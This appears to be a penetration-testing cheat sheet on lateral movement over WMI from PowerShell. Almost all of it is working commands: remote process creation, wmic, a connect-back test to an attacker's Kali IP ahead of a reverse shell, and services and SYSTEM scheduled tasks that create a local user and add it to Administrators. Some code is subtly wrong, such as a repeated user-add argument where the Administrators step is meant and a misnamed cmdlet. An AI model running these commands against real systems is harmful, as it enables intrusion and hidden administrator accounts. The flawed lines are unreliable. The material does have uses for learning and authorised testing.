 # Moving laterally using wmi

## Connecting to wmi from powershell

Create a credential object for authentication

    $username = 'user.name'
    $password = 'password' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)

Create a CIM session for repeated use:

* `DCOM`: Connect to the target via RPC on TCP/135 , RPC will direct the client to high numbered port TCP/49152-65535
* `WSman`: WinRM – connect via HTTP (TCP/5985) or HTTPS (TCP/5986)

```text
$server = 'target-ip / fqdn'
$sessionopt = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName $server -Credential $credential -SessionOption $sessionopt -ErrorAction Stop
```

## Remote process creation

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI 
request to the Win32_Process class to spawn the process under the session we created before:

    $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value whatever";
    
    Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
    CommandLine = $Command
    }

WMI will create the required process silently (it does not show the output of any command).

On legacy systems, the same can be done using `wmic` from the command prompt:

    wmic.exe /user:<username> /password:<password> /node:TARGET process call create "cmd.exe /c calc.exe" 

## Run a command remotely

Run a command in the CIM session to test if the target can connect back to the attack machine as a pre-check to a 
reverse shell. Used is [Parameter splatting](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_splatting?view=powershell-7.2).
With many thanks to [0xBEN](https://benheater.com/).

    $kaliVpnIP = 'kali-vpn-ip'
    $kaliPort = 443
    
    # Try to connect back to Kali on a TCP port of choice
    $command = "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command `"[Net.Sockets.TcpClient]::new().ConnectAsync('$kaliVpnIP', $kaliPort)`""

    # Parameter splatting
    $parameters = @{
        CimSession = $session
        ClassName = 'Win32_Process'
        MethodName = 'Create'
        Arguments = @{
            CommandLine = $command
        }
    }
    Invoke-CimSession @parameters

## Creating services remotely

Register a service called `fakeservice` on the target. This only creates the service and does not execute the command 
specified in `PathName`:

    $parameters = @{
        CimSession = $session
        ClassName = 'Win32_Service'
        MethodName = 'Create'
        Arguments = @{
            Name = 'fakeservice'
            DisplayName = 'fakeservice'
            PathName = 'net user <username> <password> /ADD'
            ServiceType = [byte]16
            StartMode = 'Manual'
        }
    }
    Invoke-CimMethod @parameters

Get the service and run it on the target. This will cause the service to run and create the local user `username` 
with a password of `password`.

    $svc = Get-CimInstance -CimSession $session -ClassName Win32_Service -Filter "Name LIKE 'fakeservice'"
    $svc | Invoke-CimMethod -MethodName StartService

Change the command and add the `username` user to the local Administrators group.

    $svc | Invoke-CimMethod -MethodName Change -Arguments @{PathName = 'net localgroup Administrators <username> /ADD'}
    $svc | Invoke-CimMethod -MethodName StartService

Cleanup:

    $svc | Invoke-Cimmethod -MethodName StopService
    $svc | Invoke-CimMethod -MethodName Delete

## Scheduled tasks

The action is to run: 

    cmd.exe /c net user add <username> <password> /ADD` . 

Payload must be split in `command` and `arguments`:

    $command = 'cmd.exe'
    $arguments = '/c net user <username> <password> /ADD'
    $parameters = @{
        CimSession = $session
        Execute = $command
        Argument = $arguments
    }
    $action = New-ScheduledTaskAction @parameters

Create the task on the remote host and assign it the action stored in the `$action` variable, then start the task:

    $parameters = @{
        CimSession = $session
        Action = $action
        User = 'NT AUTHORITY\SYSTEM'
        TaskName = 'taskname'
    }
    $task = Register-ScheduledTask @parameters
    $task | Start-ScheduledTask

Add the `username` user to the local administrators group:

    $arguments = '/c net user <username> <password> /ADD'
    $parameters = @{
        CimSession = $session
        Execute = $command
        Argument = $arguments
    }
    $action = New-ScheduledTaskAction @parameters
    $task = Set-ScheduledTask -CimSession $session -TaskName taskname -Action $action
    $task | Start-ScheduledTask
    $task | Unregister-ScheduledTask



